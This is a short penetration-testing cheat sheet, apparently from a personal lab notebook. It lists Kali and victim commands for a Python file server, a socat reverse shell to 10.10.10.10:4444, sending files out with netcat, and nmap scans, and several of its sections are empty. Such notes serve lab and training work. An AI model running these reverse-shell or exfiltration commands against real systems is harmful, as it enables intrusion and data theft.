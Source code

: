 # Useful Commands

> This section will include commands / code I used in the lab environment that I found useful

## Web server

### With Python

Kali: ```python3 -m http.server 8888``` or ```python -m SimpleHTTPServer 80```

Victim: ```wget http://10.10.10.10:8888/something.sh -O something.sh```

## Upgrade reverse shell

### With Socat

Victim: 
```
wget -q https://github.com/andrew-d/static-binaries/raw/master/binaries/linux/x86_64/socat -O socat
chmod +x socat
socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:10.10.10.10:4444
```
        
Kali:   ```socat file:`tty`,raw,echo=0 tcp-listen:4444```

### With Python

Victim: ```python3 -c 'import pty; pty.spawn("/bin/sh")'```

## Send files

### With netcat

Victim: ```cat file.txt | nc -q 0 10.10.10.10 4444```

Kali:   ```nc -lvp 4444 > file.txt```

## Reverse shells 


# Enumeration

> Enumeration is the most important thing you can do, at that inevitable stage where you find yourself hitting a wall, 90% of the time it will be because you haven’t done enough enumeration

### Nmap

TCP Scan:

```nmap -sV -sC -p- 10.10.10.77```

UDP Scan:

```nmap -sU -sV -p- 10.10.10.77```

# Privilege Escalation

# Some Scripts

# References
